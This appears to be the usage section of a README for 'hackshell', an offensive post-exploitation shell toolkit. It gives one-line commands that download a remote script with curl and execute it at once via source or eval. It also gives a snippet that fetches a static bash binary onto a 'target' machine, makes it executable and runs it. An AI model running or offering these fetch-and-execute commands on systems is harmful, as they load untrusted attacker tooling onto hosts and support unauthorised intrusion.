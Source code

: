
Usage:
```shell
 source <(curl -SsfL https://thc.org/hs)
```

```shell
 eval "$(curl -SsfL https://github.com/hackerschoice/hackshell/raw/main/hackshell.sh)"
```

 
![hackshell](https://github.com/user-attachments/assets/fe4e9f4c-d0f6-4886-8f2f-ef7e3f86b406)

It works best with bash. Download BASH if there is no bash on your target:
```shell
URL="https://bin.pkgforge.dev/$(uname -m)/bash"
[ "$(uname -m)" == i686 ] && URL='https://github.com/polaco1782/linux-static-binaries/raw/refs/heads/master/x86-i686/bash'
curl -obash -SsfL "${URL}" && chmod 700 bash && ./bash --version && exec ./bash -il
```
